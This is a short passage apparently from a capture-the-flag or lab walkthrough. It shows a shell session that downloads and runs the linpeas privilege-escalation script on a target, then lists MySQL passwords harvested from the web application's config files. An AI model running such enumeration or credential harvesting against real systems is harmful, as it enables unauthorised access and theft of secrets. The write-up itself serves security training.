 ```┌──(root㉿kali)-[~]
2024-07-06 01:13:44 (23.4 MB/s) - 'linpeas.sh' saved [157746/157746]

$ 
$ ls
linpeas.sh
$ chmod +x linpeas.sh
$ ls
linpeas.sh
$ ./linpeas.sh  

```

### Note some important information

```
/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";

```

![Alt](../../Images/linpeasresultofshell.png)
